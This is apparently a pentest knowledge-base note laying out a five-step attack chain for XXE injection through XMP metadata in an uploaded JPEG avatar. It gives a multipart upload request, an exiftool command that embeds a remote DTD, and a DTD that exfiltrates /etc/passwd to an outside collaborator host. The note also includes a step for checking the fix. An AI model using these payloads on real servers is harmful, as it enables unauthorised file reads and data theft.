

---
tags:
  - xxe
  - file-upload
  - metadata-injection
  - arbitrary-file-read
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/Upload-Scanner]]'
  - '[[tools/Burp-Collaborator]]'
  - '[[tools/oxml-xxe]]'
  - '[[tools/EXIFTool]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
commands:
  - '[[commands/post-upload-image]]'
  - '[[commands/get-external-dtd]]'
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/Detect-XXE-in-File-Upload]]'
  - '[[procedures/Confirm-XXE-Vulnerability]]'
  - '[[procedures/Craft-and-Test-XXE-Payload]]'
  - '[[procedures/Escalate-XXE-to-File-Exfiltration]]'
  - '[[procedures/Verify-Vulnerability-Fix]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
description: >-
  Exploitation of XXE vulnerability in avatar upload endpoint to read sensitive
  files
skill_level: intermediate
impact_level: high
id: 43324935-8a08-4f71-8c0c-ade4aa483db9
created_at: '2025-12-13T09:00:33.756Z'
updated_at: '2025-12-13T09:00:33.756Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
---
# XXE Injection via XMP Metadata in JPEG Upload for Arbitrary File Read

Multi-stage attack chain demonstrating the discovery and exploitation of an XXE vulnerability in an avatar upload feature, leading to arbitrary file reads on the server.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Upload-Scanner]]
- [[tools/Burp-Collaborator]]
- [[tools/oxml-xxe]]
- [[tools/EXIFTool]]

### Target Environment

- Web application with Java-based servlet
- Linux server
- Accessible upload endpoint

### Initial Access Requirements

- Access to the avatar upload functionality
- Network connectivity to the target

## Detailed Attack Procedures

### Step 1: Detect XXE in File Upload
procedure: [[procedures/Detect-XXE-in-File-Upload]]

**Objective**: Identify potential XXE vulnerability in the avatar upload endpoint.

**Instructions**: Use [[tools/Burp-Suite]] with [[tools/Upload-Scanner]] to scan the upload endpoint. Send a POST request to the endpoint using [[commands/post-upload-image]]:

```bash
POST /edit-profile-avatar!uploadImage.jspa HTTP/1.1
Host: target.com
Content-Type: multipart/form-data

--boundary
Content-Disposition: form-data; name="file"; filename="payload.jpg"

[JPEG with XXE payload in XMP metadata]
--boundary--
```

**Expected Output**: Scan results indicating potential XXE.

**Success Indicators**:
- Payload injected successfully
- Scan detects vulnerability

### Step 2: Confirm XXE Vulnerability
procedure: [[procedures/Confirm-XXE-Vulnerability]]

**Objective**: Verify the vulnerability through outbound requests.

**Instructions**: Monitor [[tools/Burp-Collaborator]] for callbacks. Observe server requests like [[commands/get-external-dtd]]:

```bash
GET /x.dtd HTTP/1.1
Host: collaborator-domain.net
User-Agent: Java/1.8.0_XXX
```

**Expected Output**: Callback logs in Burp Collaborator confirming external entity resolution.

**Success Indicators**:
- Outbound GET requests received
- User-Agent confirms Java server

### Step 3: Craft and Test XXE Payload
procedure: [[procedures/Craft-and-Test-XXE-Payload]]

**Objective**: Manually craft and test payloads for reliable exploitation.

**Instructions**: Use [[tools/oxml-xxe]] or [[tools/EXIFTool]] to create a JPEG with custom XXE in XMP metadata. Upload via [[commands/post-upload-image]] and check for success.

```bash
# Example with EXIFTool
exiftool -XMP='<rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"><rdf:Description rdf:about="" xmlns:dc="http://purl.org/dc/elements/1.1/"><!ENTITY % remote SYSTEM "http://collaborator.net/x.dtd"> %remote;</rdf:Description></rdf:RDF>' payload.jpg
```

**Expected Output**: Successful payload injection with callbacks.

**Success Indicators**:
- Payload triggers external DTD fetch
- No errors in upload process

### Step 4: Escalate XXE to File Exfiltration
procedure: [[procedures/Escalate-XXE-to-File-Exfiltration]]

**Objective**: Exfiltrate sensitive files using the XXE vulnerability.

**Instructions**: Craft a DTD to read files like /etc/passwd and exfiltrate via OOB. Upload the payload using [[commands/post-upload-image]] and monitor [[tools/Burp-Collaborator]] for exfiltrated data.

```bash
# Example DTD content served at collaborator
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'ftp://collaborator.net/?data=%file;'>">
%eval;
%exfil;
```

**Expected Output**: File contents received via simulated FTP or similar OOB channel.

**Success Indicators**:
- Sensitive file contents exfiltrated
- Confirmation of arbitrary file read

### Step 5: Verify Vulnerability Fix
procedure: [[procedures/Verify-Vulnerability-Fix]]

**Objective**: Test if the vulnerability has been remediated.

**Instructions**: Attempt to upload a payload post-fix and check for feature disablement or endpoint blocking.

**Expected Output**: Upload fails or returns error indicating disablement.

**Success Indicators**:
- No outbound requests
- Endpoint inaccessible

## Attack Chain Summary

### Key Achievements

1. Detection of XXE in metadata parsing
2. Confirmation and manual reproduction
3. Escalation to sensitive data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

*Last updated: 2023-10-01*
